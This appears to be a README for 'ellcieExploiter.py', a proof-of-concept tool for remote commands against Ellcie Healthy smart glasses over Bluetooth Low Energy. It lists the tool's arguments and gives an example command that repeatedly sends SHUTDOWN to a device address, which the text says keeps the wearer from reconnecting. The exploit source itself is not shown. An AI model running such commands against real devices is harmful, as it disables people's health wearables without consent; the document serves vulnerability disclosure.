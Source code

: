 # Ellcie Healthy glasses : Remote Command Execution


>    usage: ellcieExploiter.py [-h] --address ADDRESS --action {BEEP,SHUTDOWN}   [--init {1,0}] [--keepsending {1,0}] 


Arguments:

	 -h, --help            show this help message and exit
	 --address ADDRESS     Glasses BLE addresses
	 --action {BEEP,SHUTDOWN, CHANGE_DEVICE_NAME, PRINT_INFOS} Action to be executed 
	 --init {1,0}          Should the script activate bluetooth
	 --keepsending {1,0}   Should we keep sending the request ? Doing so will
	                       constantly send the action. That means for example if
	                       you jam the device and send the shutdown request, the
	                       user won't be able to reconnect again, as the device
	                       with again and again shutdown.


### Example 

    python3 ellcieExploiter.py  --address=E7:60:74:B4:98:3E --init=0 --keepsending=1 --action=SHUTDOWN


### Video 

https://www.youtube.com/watch?v=fmF9yqJvT5s
